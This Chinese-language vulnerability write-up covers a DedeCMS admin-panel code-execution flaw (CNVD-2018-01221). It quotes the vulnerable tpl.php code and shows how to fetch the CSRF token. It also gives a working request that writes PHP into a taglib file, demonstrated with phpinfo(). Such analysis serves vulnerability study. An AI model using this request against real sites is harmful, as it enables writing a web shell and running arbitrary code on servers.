




# dedecms 后台代码执行 CNVD-2018-01221

**漏洞成因**

> 在写入标签功能处，写入文件内容可控，且文件名后缀默认定义为php，导致任意命令执行。
>
> 但个人认为此漏洞成因与开发业务相关，无意间产生了此漏洞。。。

# 漏洞代码

**路径** **dede/tpl.php**

关键代码

```
$action = isset($action) ? trim($action) : '';
else if($action=='savetagfile')
{
    if ( empty(${$_csrf['name']}) OR $_csrf['hash'] !== ${$_csrf['name']})
    {
        exit('Error:no csrf hash code!');
    }
    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
    {
        ShowMsg('文件名不合法，不允许进行操作！', '-1');
        exit();
    }
    require_once(DEDEINC.'/oxwindow.class.php');
    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
    $content = stripslashes($content);
    $truefile = DEDEINC.'/taglib/'.$filename;
    $fp = fopen($truefile, 'w');
    fwrite($fp, $content);
    fclose($fp);
****
    exit();
}
```

**分析**

> $content $filename 可控，导致可以写入命令进行Getshell
>
> 所以思路来了
>
> 1. 首先要获取_csrf['name']的值(参考其他老哥的教程是token，可能我的版本有点差异)从而通过判断语句进入下一阶段
> 2. 写入命令语句

**获取_csrf['name']**

> 全局搜索_csrf['name']，发现在**dede/templets/tpl_edit.htm** 中输出。
>
> ```
> <input type="hidden" name="action" value="saveedit" />
> <input type="hidden" name="acdir" value="<?php echo $acdir; ?>" />
> <input type="hidden" name="<?php echo $_csrf['name'];?>" value="<?php echo $_csrf['hash'];?>" />
> ```
>
> 查看哪里引入了**dede/templets/tpl_edit.htm**
>
> 发现仍然在**dede/tpl.php** 中通过  include DEDEADMIN.'/templets/tpl_edit.htm 传入
>
> ```
> if($action == 'edit' || $action == 'newfile')
> {
>     if($filename == '' && $action == 'edit')
>     {
>         ShowMsg('未指定要编辑的文件', '-1');
>         exit();
>     }
>     if(!file_exists($templetdird.'/'.$filename)  && $action == 'edit')
>     {
>         $action = 'newfile';
>     }
>     /*
>     */
> 
>     include DEDEADMIN.'/templets/tpl_edit.htm';
>     exit();
> }
> ```
>
> 那么可以通过访问tpl.php?action=newfile 进行获取_csrf['name']的值

## 漏洞利用

获取 _csrf['name']的值

```
url/tpl.php?action=newfile
```



写入命令



```
url/dede/tpl.php?action=savetagfile&_dede_csrf_name_bf1c4445=dc3740231717c87888a8e3648e75061a&filename=aaa.lib.php&content=<?php phpinfo() ?>
```

访问文件，发现已经被执行

```
url/include/taglib/aaa.lib.php
```



## 总结

利用和原理比较简单，但是如何能发现到此漏洞可能需要研究一下，或者非常了解业务。

另外还有dedecms 全局变量注册问题需要研究一下（这个和我看的其他作者的讲解不一样），这边没有定义就直接传参了，然后**register_globals**  也是off的状态。

